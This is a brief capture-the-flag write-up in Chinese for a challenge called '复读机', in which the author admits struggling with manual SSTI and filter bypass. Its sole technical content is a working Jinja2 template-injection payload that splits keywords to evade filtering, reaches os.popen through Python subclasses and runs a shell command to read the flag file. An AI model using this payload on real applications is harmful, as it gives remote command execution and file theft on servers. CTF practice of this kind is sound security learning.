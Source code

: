 ### 复读机

---

这个题对我来说，还是很有难度的，SSTI的手工注入和过滤我还是不太行

```
BaseCTF{%print(''['_''_cl''ass_''_']['_''_ba''se_''_']['_''_subcla''sses_''_']()[137]['_''_in''it_''_']['_''_glo''bals_''_']['po''pen']('cd $OLDPWD;cat flag')['rea''d']())%}
```

